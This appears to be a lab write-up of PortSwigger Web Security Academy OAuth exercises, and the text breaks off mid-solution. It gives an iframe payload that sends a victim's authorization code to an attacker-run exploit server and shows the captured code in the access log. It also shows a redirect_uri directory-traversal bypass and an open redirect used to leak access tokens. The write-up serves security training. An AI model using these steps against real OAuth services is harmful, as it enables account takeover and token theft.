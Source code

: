 **Exploit Server ->**

```
Body:

<iframe src="https://oauth-acf31f551e55fa1dc07611920273008e.web-security-academy.net/auth?client_id=z46bbl0uhkvp8yzl60o40&redirect_uri=https://exploit-ac0c1f801ec6faddc061114901610055.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

**Exploit Server -> Access log**

`"GET /?code=HByGvnInermhlSEbNi33uV2QJMljAJoZUcc81-F7PGk HTTP/1.1"`

**Solution:**

```
https://ac3c1f071eb4fa24c0d411a200ca005a.web-security-academy.net/oauth-callback?code=HByGvnInermhlSEbNi33uV2QJMljAJoZUcc81-F7PGk
```

### Lab: Stealing OAuth access tokens via an open redirect

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

Note You cannot access the admin's API key by simply logging in to their account on the client application.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

`GET /auth?client_id=rjyfyzxtcqrgt1ucdr7qg&redirect_uri=https://acba1f891e46fa9cc0c8123200590055.web-security-academy.net/oauth-callback&response_type=token&nonce=-1763996802&scope=openid%20profile%20email`

I tried some ways on redirect\_uri. It is working only in the same domain. Directory escape works on it.

`GET /auth?client_id=rjyfyzxtcqrgt1ucdr7qg&redirect_uri=https://acba1f891e46fa9cc0c8123200590055.web-security-academy.net/oauth-callback/../post?postId=1&response_type=token&nonce=-1763996802&scope=openid%20profile%20email`

**Redirection ->** `GET /post?postId=1 HTTP/1.1`

And the access token parts of the url as fragment.

`/post?postId=1#access_token=uEZkAlYkgfxk9OU9n8Mo8xI7MbQb3IoRd2Ks5ZKAMvo&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email`

In the website, there is a next post option. There is an open redirect on it.

`GET /post/next?path=/post?postId=2 HTTP/1.1`

**Exploit Server ->**

